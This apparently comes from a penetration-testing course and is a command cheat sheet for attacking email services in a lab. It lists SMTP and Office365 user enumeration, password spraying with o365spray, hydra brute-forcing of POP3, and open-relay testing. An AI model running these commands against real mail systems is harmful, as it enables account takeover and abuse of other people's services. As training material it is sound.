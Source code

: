 ## Attacking Email Services
| #### Command 	                        | ####Description                                                      |
---------------------------------------------------------------------------------------------------------------

| dig mx inlanefreight.com | grep "MX" | grep -v ";" 	DNS lookup for mail servers for the specified domain. |
| host -t A mail1.inlanefreight.htb. 	DNS lookup of the IPv4 address for the specified subdomain. |
| telnet 10.10.110.20 25 	Connect to the SMTP server. |
| smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7 	SMTP user enumeration using the RCPT command against the specified host. |
| python3 o365spray.py --validate --domain msplaintext.xyz 	Verify the usage of Office365 for the specified domain. |
| python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz 	Enumerate existing users using Office365 on the specified domain. |
| python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz 	Password spraying against a list of users that use Office365 for the specified domain. |
| hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3 	Brute-forcing the POP3 service. |
| swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213 	Testing the SMTP service for the open-relay vulnerability. |
